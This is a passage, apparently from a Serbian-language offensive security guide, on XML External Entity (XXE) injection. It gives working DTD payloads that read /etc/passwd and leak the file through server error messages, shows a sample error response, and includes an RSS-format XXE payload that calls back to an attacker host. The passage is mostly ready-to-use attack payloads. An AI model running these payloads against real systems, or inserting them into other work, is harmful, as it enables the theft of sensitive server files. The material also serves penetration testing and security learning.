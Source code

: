 Izvođenje podataka zasnovano na greškama Da bi se prevazišlo ovo ograničenje, koristi se pristup zasnovan na greškama. DTD datoteka je strukturirana na sledeći način kako bi izazvala grešku koja uključuje podatke iz ciljne datoteke:

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

Server odgovara greškom, važno je da odražava nepostojeći fajl, što ukazuje da server pokušava da pristupi navedenom fajlu:

```javascript
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

Da biste uključili sadržaj datoteke u poruku o grešci, prilagođena je DTD datoteka:

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

Ova modifikacija dovodi do uspešne ekstrakcije sadržaja datoteke, kako je prikazano u izlaznoj grešci poslatoj putem HTTP-a. Ovo ukazuje na uspešan XXE (XML External Entity) napad, koristeći i Out of Band i Error-Based tehnike za izvlačenje osetljivih informacija.

## RSS - XEE

Validan XML u RSS formatu za iskorišćavanje XXE ranjivosti.

### Ping back

Jednostavan HTTP zahtev ka serveru napadača

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "http://<AttackIP>/rssXXE" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>XXE Test Blog</title>
<link>http://example.com/</link>
<description>XXE Test Blog</description>
<lastBuildDate>Mon, 02 Feb 2015 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>Test Post</description>
<author>author@example.com</author>
<pubDate>Mon, 02 Feb 2015 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
